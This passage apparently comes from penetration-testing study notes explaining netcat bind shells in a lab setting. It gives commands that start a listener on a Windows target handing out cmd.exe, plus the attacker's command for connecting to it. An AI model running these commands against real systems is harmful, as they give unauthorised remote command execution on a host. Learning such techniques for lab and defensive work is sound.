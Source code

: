 <figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Bind Shells <a href="#bind-shells" id="bind-shells"></a>

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-0b6b9e4f95832943fc76812597d3018a926b5fbe%252FBindShell-660x309.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=c4940281&#x26;sv=1" alt=""><figcaption><p>Bind Shell - geeksforgeeks.org</p></figcaption></figure>

🗒️ **Bind Shell** - a remote shell where _the attacker connects to the listener running on the target system_ and execute commands on the target system.

* _Bind shells issues_:
  * Must have access to the target system
  * Inbound traffic can be blocked by a firewall, it is very suspect
* A `netcat` listener must be configured on the target system to execute:
* `cmd.exe` - Windows
* `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

* Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.0.26.170 1234
```
